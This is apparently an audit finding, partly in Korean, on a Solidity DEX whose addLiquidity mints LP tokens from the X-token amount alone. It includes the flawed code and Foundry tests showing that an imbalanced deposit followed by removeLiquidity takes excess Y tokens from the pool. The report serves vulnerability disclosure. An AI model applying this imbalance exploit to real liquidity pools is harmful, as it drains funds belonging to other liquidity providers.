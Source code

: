 #Problem - Broken pool liquidity ratio
## 최영현

### 설명

문제 발생 - addLiquidity function

```solidity
function addLiquidity(uint256 tokenXAmount, uint256 tokenYAmount, uint256 minimumLPTokenAmount) external returns (uint LPTokenAmount){
        require(tokenXAmount > 0 && tokenYAmount > 0);
        (uint256 reserveX, ) = amount_update();
        (, uint256 reserveY) = amount_update();

        if(totalSupply() == 0){ LPTokenAmount = tokenXAmount * tokenYAmount / 10**18;}
        
        else{ LPTokenAmount = totalSupply() * tokenXAmount / reserveX;}
        //console.log("add total:", totalSupply());
        require(minimumLPTokenAmount <= LPTokenAmount);
```

addLiquidity에서 imbalance한 token amount를 제공하더라도 그대로 pool에 add하여 LP token을 발행함

```solidity
function testAddLiquidity() external {
        uint firstLPReturn = dex.addLiquidity(1000 ether, 1000 ether, 0); //lp = 1000
        emit log_named_uint("firstLPReturn", firstLPReturn);

				uint secondLPReturn = dex.addLiquidity(4000 ether, 100 ether, 0);
        emit log_named_uint("secondLPReturn", secondLPReturn);
        
				(bool success, ) = address(dex).call(abi.encodeWithSelector(dex.addLiquidity.selector, 4000 ether, 100 ether, 0));
        assertTrue(!success, "error");
}
```
<img width="544" alt="스크린샷 2023-03-26 오후 8 40 54" src="https://user-images.githubusercontent.com/127647051/227773283-017aff86-a48f-4e61-a8b9-929e324cbf14.png">

→ second addLiquidity에서 LP token 발행시, 무조건 X토큰을 기준으로 발행함. Y토큰에 적은양을 amount로 주더라도 X토큰에 대한 LP token을 받을 수 있으며, 해당 값이 totalSupply로 mint됨

→ removeLiquidity시, Y토큰에 대해 더 많은 amount를 획득할 수 있게됨

```solidity
function testAddLiquidity() external {
        uint firstLPReturn = dex.addLiquidity(1000 ether, 1000 ether, 0); //lp = 1000
        emit log_named_uint("firstLPReturn", firstLPReturn);

        uint secondLPReturn = dex.addLiquidity(4000 ether, 100 ether, 0);
        emit log_named_uint("secondLPReturn", secondLPReturn);

        (uint x, uint y) = dex.removeLiquidity(secondLPReturn,0, 0); //lp = 1000
        emit log_named_uint("x", x);
        emit log_named_uint("y", y);

        assertEq(x, 4000 ether);
        assertEq(y, 100 ether);
    }
```
<img width="546" alt="스크린샷 2023-03-26 오후 8 42 03" src="https://user-images.githubusercontent.com/127647051/227773319-50f7f597-119e-4257-bd2c-bf45ddc8dea0.png">
